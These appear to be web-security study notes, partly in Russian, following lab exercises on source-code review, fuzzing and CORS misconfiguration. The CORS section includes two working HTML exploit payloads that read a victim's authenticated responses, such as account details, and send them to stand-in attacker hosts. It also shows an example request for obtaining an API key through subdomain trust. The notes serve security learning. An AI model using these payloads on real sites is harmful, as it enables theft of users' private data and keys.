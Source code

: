 # Analyzing Source Code for Vulnerabilities
Load source code
Use IDE debugger to analyze
Find authorization, authentication, redirects, secrets, user input logic, pages without authentication


# DAST
Fuzzing


# CORS
Политика обходящая SOP. Цель дать доступ другим сайтам свои ресурсы к сайту хакера
#### CORS vulnerability with basic origin reflection
Получить любой ответ от сервера
Проверить наличие заголовков Access-Control-Allow-...
Вставить через прокси заголовок `Origin: https://hello.world` ИЛИ `null`
Уязвим - если в ответе появился `Access-Control-Allow-Origin: https://hello.world`
<img src="../Media/cors-vulnerability-with-basic-origin-reflection.png" alt="drawing" width="150"/>
```html
<html><body><script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
        req.withCredentials = true;
        req.send();
        function reqListener() {
            location='//malicious-website.com/log?key='+this.responseText;
        };
</script></body></html>
```

```html
<html>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','X.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();
            function reqListener() {
                location='X.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
            };
        </script>"></iframe>
</html>
```

#### Exploiting XSS via CORS trust relationship
|---|---|
|GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...|HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true|